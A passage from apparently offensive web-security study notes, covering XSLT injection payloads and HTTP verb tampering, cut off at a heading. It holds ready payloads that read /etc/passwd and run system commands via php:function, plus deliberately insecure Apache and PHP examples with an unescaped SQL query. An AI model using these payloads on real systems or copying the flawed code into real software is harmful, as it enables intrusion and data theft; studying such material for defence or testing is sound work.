 The check if this vulnerability exists, we can inject a `<` and see if this crashes the app. If this works, we can continue with some payloads:
```xml
# Information Disclosure

Version: <xsl:value-of select="system-property('xsl:version')" />
<br/>
Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
<br/>
Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
<br/>
Product Name: <xsl:value-of select="system-property('xsl:product-name')" />
<br/>
Product Version: <xsl:value-of select="system-property('xsl:product-version')" />

# LFI (XSLT v2.0)
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />

# LFI (PHP function support)
<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />

# RCE
<xsl:value-of select="php:function('system','id')" />
```
# Attacking HTTP Headers
### HTTP Verb Tampering
This attack works by attacking the HTTP method used for requests. Other than `GET` and `POST`, here are the most commonly used verbs:

| Method    | Description                                                                                         |
| --------- | --------------------------------------------------------------------------------------------------- |
| `HEAD`    | Identical to a GET request, but its response only contains the `headers`, without the response body |
| `PUT`     | Writes the request payload to the specified location                                                |
| `DELETE`  | Deletes the resource at the specified location                                                      |
| `OPTIONS` | Shows different options accepted by a web server, like accepted HTTP verbs                          |
| `PATCH`   | Apply partial modifications to the resource at the specified location                               |
**Insecure Configuration**
Insecure configurations cause the first type of HTTP verb tampering vulnerabilities. When an admin doesn't take into account other methods, we can use these methods to bypass authentication.

An example of insecure configuration would be:
```xml
<Limit GET POST>
    Require valid-user
</Limit>
```
**Insecure Coding**
Insecure coding causes the other type of verb tampering vulnerability. Usually a regex is used to filter requests. We can bypass these filters to bypass authentication. Here's an example of an improper filter, where the developer forgot to filter all requests:
```php
$pattern = "/^[A-Za-z\s]+$/";

if(preg_match($pattern, $_GET["code"])) {
    $query = "Select * from ports where port_code like '%" . $_REQUEST["code"] . "%'";
    ...SNIP...
}
```
**Verb Tampering Attacks**